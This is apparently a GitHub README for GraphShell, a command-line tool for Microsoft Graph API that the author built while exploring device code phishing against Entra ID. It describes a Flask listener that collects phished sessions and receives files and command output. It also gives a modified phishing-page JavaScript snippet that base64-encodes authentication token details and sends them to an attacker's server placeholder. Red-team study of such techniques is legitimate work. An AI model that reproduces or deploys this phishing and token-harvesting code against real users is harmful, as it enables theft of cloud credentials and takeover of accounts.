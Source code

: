 ## GraphShell: A Command-Line Tool for Microsoft Graph API Exploration
### Overview
GraphShell is a command-line not so fancy tool designed for interacting with Microsoft Graph API. Currently it facilitates many operations such as enumerating users, groups, devices, and sending emails from Entra ID ( I am lying, for some reason the mail doesn't get delivered, maybe detected as spam? ). I devloped it as I was learning and exploring Device Code Phishing and Microsoft Graph API. If you are looking for more functionality, I would recommend exploring [AADInternals](https://github.com/Gerenios/AADInternals) and [TokenTactics](https://github.com/rvrsh3ll/TokenTactics). I am sure there would be some more cool projects but I haven't explored them yet :D

### Update (05/27/2024)
It now allows interacting with multiple sessions, starting a Flask server to receive sessions (helpful during dynamic device code phishing), and performing various tasks with authenticated sessions (YESSSS! more graph api calls).
![](https://raw.githubusercontent.com/dazzyddos/GraphShell/main/images/image.png)

### Features <br>
Features
- Generate device codes for authentication.
- Interact with multiple sessions.
- Start a Flask web server to retrieve sessions remotely (Dynamic Device Code Phishing).
- List and interact with sessions.
- Execute various Microsoft Graph API commands.
- Save and load sessions to/from an SQLite database.
- Check session validity and status.
- Support for SSL for the web server.

### Web Server Endpoints
- GET /start_session: Start a new session.
- POST /start_session: Start a new session with session details.
- GET /poll_session/<session_id>: Poll for session authorization status.
- POST /receive_output: Receive command output.
- POST /receive_file: Receive a file.
- POST /heartbeat: Send a heartbeat.

#### Installation and Usage
Clone the repository:
```bash
git clone https://github.com/dazzyddos/GraphShell.git
cd GraphShell
```

Install dependencies:
```bash
pip install -r requirements.txt
```

Run the tool:
```bash
python main.py
```

Generate Device Code:
```bash
>> generate_device_code
```

Authenticate:
```
The device code needs to be entered at the provided URL i.e., https://microsoft.com/devicelogin
```

Other way to use is to start the flask server which will listen for token details:
```bash
>> start_server 1337 SSL  # can be run without SSL too
```

#### Video Demo 1 (Normal Generate Token)

[![Watch the video](images/image.png)](video/generate_device_code.mp4)


### Dynamic Device Code Phishing
I don't need to explain what and how the device code phishing works. I would recommend reading this great [Blog Post](https://www.blackhillsinfosec.com/dynamic-device-code-phishing/) by [@rvrsh3ll](https://twitter.com/rvrsh3ll)
I am using the same [index.html](https://github.com/rvrsh3ll/Azure-App-Tools/blob/master/DynamicDeviceCodes/index.html) except with small modification below. By default he's only sending the device_code to his python tool but our tool requires the complete token details which needs to be sent after base64 encoding.
```javascript
function base64UrlEncode(str) {
        return btoa(str) // Standard Base64 encoder
            .replace(/\+/g, '-') // Convert '+' to '-'
            .replace(/\//g, '_') // Convert '/' to '_'
            .replace(/=+$/, ''); // Remove trailing '='
    }
    
// Convert the object to a JSON string
const jsonString = JSON.stringify(data)

// Base64 URL encode the JSON string
const base64EncodedData = base64UrlEncode(jsonString)
//console.log(base64EncodedData);

document.getElementById('code').innerHTML += data.message;

// Change this line to point to your listening webserver where the python code is running
$.get("https://<Server Name>:<port>/start_session?tok=" + base64EncodedData);
```

#### Video Demo 2 (Dynamic Device Code Phishing)

[![Watch the video](images/image.png)](video/dynamic_device_code.mp4)





